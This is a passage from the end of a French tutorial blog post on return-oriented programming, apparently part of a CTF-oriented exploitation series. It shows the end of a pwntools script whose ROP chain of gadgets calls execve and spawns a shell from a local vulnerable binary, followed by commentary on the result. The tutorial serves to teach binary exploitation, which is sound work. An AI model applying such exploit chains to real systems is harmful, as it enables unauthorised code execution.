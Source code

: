 ```python
payload += p64(0x00000000006b41c8)  # @ .data + 8
payload += p64(0x000000000041918f)  # xor rax, rax ; ret
payload += p64(0x0000000000453b50) * 59 # add rax, 1 ; ret
payload += p64(0x00000000004546e5)  # syscall ; ret

p = process("./vuln")
p.recv()
p.sendline(payload)
p.interactive()
p.close()
```

C'est pas beau toute cette automatisation ? Bon, ca ne marche pas à tous les coups, mais quand ca marche, le gain de temps est énorme, surtout en CTF... ;)

On va maintenant l'exploiter :

<img class="img_full" src="run_exploit.png" alt="run_exploit" >

TADA, one more shell ! :D

Petit détail qui tue, on voit ici que $0 (le nom du programme exécuté) vaut `bash`, alors que dans notre ropchain, on avait `/bin//sh` (qui est compris comme `/bin/sh`). Mais c'est normal, car sur ma machine, `/bin/sh` est un lien symbolique qui pointe vers bash ! Mon vrai sh est `/usr/bin/sh`.

 > Mais... Ca ne concorde pas avec les exploits précédents ?!

Wouah ! Un qui suit ! Oui, en effet...\
Plus d'informations sur cette étrangeté sur l'article de coupaing Pixis : [sh_vs_bash](https://beta.hackndo.com/sh-vs-bash/)

C'est tout pour cette courte introduction au ROP, j'espère qu'elle vous a mindblown comme il se doit. Vous avez désormais quelques cartes en main : BOF / shellcode / ret2libc / ROP / cerveau / ...

C'est pourquoi notre prochaine rencontre se fera autour de l'analyse d'un programme un peu plus complet. Nous allons donc conclure cette série et...

Tout faire péterrrrr ! `\o/`

<img class="img_med" src="like_a_boss.gif" alt="like_a_boss" >

A très vite pour encore plus de pwn !
